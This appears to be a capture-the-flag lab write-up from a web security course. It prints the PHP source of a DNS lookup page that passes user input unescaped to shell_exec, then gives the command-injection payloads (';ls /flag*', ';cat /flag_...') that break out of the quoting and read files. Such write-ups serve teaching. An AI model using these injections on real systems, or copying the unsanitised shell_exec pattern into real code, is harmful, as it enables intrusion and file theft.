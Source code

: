 ```yaml
---
title: Simple Web 0x09(Lab - DNS Lookup Tool)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Command Injection"
---
```


# Simple Web 0x09(Lab - DNS Lookup Tool)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8300/

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | Baby</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre><?= shell_exec("host '" . $_POST['name'] . "';") ?></pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a id="magic">Magic</a> | <a href="/?source">Source Code</a>
                </div>
                <article class="message is-link is-hidden is-size-4" id="hint">
                    <div class="message-body is-family-monospace">
                        host '<span class="has-text-danger" id="command"></span>';
                    </div>
                </article>
            </div>
        </div>
    </section>

    <script>
        magic.onclick = () => hint.classList.toggle("is-hidden");
        window.onload = hostname.oninput = () => command.textContent = hostname.value;
    </script>
</body>

</html> 
```
:::

## Exploit
1. According to the source code, seems there's no any protection.
2. `shell_exec`
It used `shell_exec` to parse input string.
`shell_exec("host '" . $_POST['name'] . "';")`
`shell_exec("host '" . ';ls /flag*' . "';")`→`host '';ls /flag*'';`
![](https://i.imgur.com/6rCN8gy.png)
↓
`shell_exec("host '" . ';cat /flag_44ebd3936a907d59'. "';")`
* Note that, you can use `psysh` or `php -a` in Linux with interactive mode to try the payload
3. Then we got flag!!!


## Reference
[PHP system()、exec()、shell_exec() 的 差異](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)